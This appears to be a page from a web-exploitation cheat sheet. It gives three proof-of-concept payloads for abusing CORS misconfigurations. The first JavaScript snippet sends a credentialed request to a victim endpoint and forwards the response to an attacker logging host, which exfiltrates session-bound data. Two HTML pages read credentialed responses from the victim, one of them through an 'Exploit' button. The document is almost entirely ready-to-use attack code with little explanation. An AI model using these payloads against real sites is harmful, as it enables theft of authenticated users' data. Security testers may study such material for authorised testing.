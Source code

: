 This PoC requires that the respective JS script is hosted at `evil.com`

```js
var req = new XMLHttpRequest(); 
req.onload = reqListener; 
req.open('get','https://victim.example.com/endpoint',true); 
req.withCredentials = true;
req.send();

function reqListener() {
    location='//atttacker.net/log?key='+this.responseText; 
};
```

or 

```html
<html>
     <body>
         <h2>CORS PoC</h2>
         <div id="demo">
             <button type="button" onclick="cors()">Exploit</button>
         </div>
         <script>
             function cors() {
             var xhr = new XMLHttpRequest();
             xhr.onreadystatechange = function() {
                 if (this.readyState == 4 && this.status == 200) {
                 document.getElementById("demo").innerHTML = alert(this.responseText);
                 }
             };
              xhr.open("GET",
                       "https://victim.example.com/endpoint", true);
             xhr.withCredentials = true;
             xhr.send();
             }
         </script>
     </body>
 </html>
```

or

```html
<!DOCTYPE html>
<html>
    <head>
        <title>CORS exploit POC</title>
            <script type="text/javascript">

                fetch('---URL HERE----')
                    .then(response=> response.text())
                    .then(myJson=> alert(myJson))
            </script>
    </head>
    <body>
    </body>
</html>
```
